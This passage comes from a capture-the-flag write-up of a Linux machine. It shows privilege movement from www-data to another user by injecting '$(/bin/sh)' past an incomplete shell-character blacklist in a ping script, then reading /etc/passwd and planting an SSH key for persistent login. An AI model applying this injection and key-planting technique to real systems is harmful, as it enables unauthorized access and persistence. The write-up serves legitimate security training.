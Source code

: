 Looking at the code above, I noticed the `os.system('ping ' + command)` line.
A few lines above, there is also a blacklist for shell syntax which didn't have the `$`, `(`, `)` characters.
This meant that I could use shell interpolation and pass a value to `command` like `$(/bin/bash)` to invoke a shell as the `pepper` user.

```
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(/bin/sh)
id
whoami
cat /etc/passwd
cat /etc/passwd > /tmp/passwd-test
www-data@jarvis:/var/www/Admin-Utilities$ ls -l /tmp
total 4
-rw-r--r-- 1 pepper pepper 1434 Sep 23 20:10 passwd-test
```

Notice how running bash from that shell didn't write any visible results to my console.
However, I noticed that I could still write files as the `pepper` user, so I ended up scripting something that will generate an ssh key, make it world-readable and copy it to the /tmp directory. Note that a better approach would have been to invoke a netcat reverse shell instead.

I ran the commands from the following script and copied the `id_rsa` private key to my Kali machine to login as the `pepper` user: 

```bash
mkdir -p /home/pepper/.ssh
ssh-keygen -b 2048 -t rsa -f /home/pepper/.ssh/id_rsa_r0kit -q -N ""
cat /home/pepper/.ssh/id_rsa_r0kit.pub >> /home/pepper/.ssh/authorized_keys
chmod -R 700 /home/pepper/.ssh/
cp /home/pepper/.ssh/id_rsa_r0kit /tmp/pepper.id_rsa
chmod 744 /tmp/pepper.id_rsa_r0kit
```

The script above generates an SSH key pair without prompt and modifies the permissions on the keys to make SSHd happy.
Finally, the private key was copied to the /tmp directory and its permissions were changed to world-readable so that the `www-data` user can read them.

**NOTE: Generally speaking, avoid doing this on real-world pentest engagements because it makes more work for you to clean up and makes it significantly easier for others to compromise the user.**

At this point, I was able to login as the `pepper` user and grab their flag:
